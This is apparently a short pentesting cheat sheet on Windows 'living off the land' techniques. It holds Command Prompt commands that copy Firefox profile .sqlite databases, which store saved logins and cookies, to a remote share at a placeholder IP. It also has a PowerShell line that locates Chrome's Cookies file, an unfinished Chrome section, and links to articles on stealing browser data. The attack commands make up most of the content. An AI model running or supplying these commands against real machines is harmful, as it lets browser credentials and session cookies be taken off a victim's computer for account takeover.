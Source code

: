 # Living off the Land

## 01 - Command Prompt

### 1.1 - Firefox Profiles

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles*.sqlite \\<IP>\<share_name>\

C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\<IP>\<share_name>\
```

### 1.2 - Google Chrome

TODO: Fill this information

```

```

## 02 - Powershell

```
PS C:\> $env:USERPROFILE + '\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

---
## References

- [Retrieving Data From Thunderbird and Firefox](https://thevivi.net/blog/pentesting/2020-09-06-retrieving-data-from-thunderbird-and-firefox/)

- [FareedFauzi Resources Windows Post Exploitation](https://fareedfauzi.gitbook.io/oscp-notes/windows-post-exploitation/resources-windows-post-exploitation)

- [Mango PDF Zone Stealing Chrome Cookies Without a Password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)
